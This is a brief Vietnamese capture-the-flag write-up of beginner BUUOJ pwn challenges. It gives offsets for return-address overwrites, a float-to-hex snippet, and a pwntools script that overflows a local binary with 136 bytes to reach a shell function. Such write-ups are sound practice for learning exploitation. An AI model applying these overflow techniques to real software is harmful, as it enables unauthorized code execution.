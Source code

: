 # test_your_nc (1)  
test  
[test_your_nc](https://buuoj.cn/challenges#test_your_nc)


# rip(2)  
chạy chương trình ta thấy leak địa chỉ  
đó là địa chỉ thực thi hàm chứ shell  
dùng pattern để tìm offset là 72  
ta nhập 72 kí tự và địa chỉ leak + 1 để thực thi hàm shell  
![image](https://user-images.githubusercontent.com/111769169/218854646-28492223-adec-4c75-a52a-c8b0884ace11.png)  
[link](https://buuoj.cn/challenges#rip)
dạng ret2win (tấn công rip)


# 4  
chương trình OW biến để thoả yếu cầu = 11.28125  
ta dùng công cụ  
_  
import struct  
v1 = 11.28125  
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  
_  
để chuyển số thập phân sang hex  
![image](https://user-images.githubusercontent.com/111769169/218855333-00dc6b65-2757-4c27-aa78-67efb0dcfe6e.png)
[link](https://buuoj.cn/challenges#warmup_csaw_2016)


# 5  
# jarvisoj_level0 (6)
tấn công saved rip  
<details>
<summary>script</summary>

from pwn import *  

exe = ELF('./6')  
p = process("./6")  

pay = b'a' * 136 + p64(0x0000000000400597)  
input()  
p.sendafter('Hello, World\n', pay)  
p.interactive()  

</details>

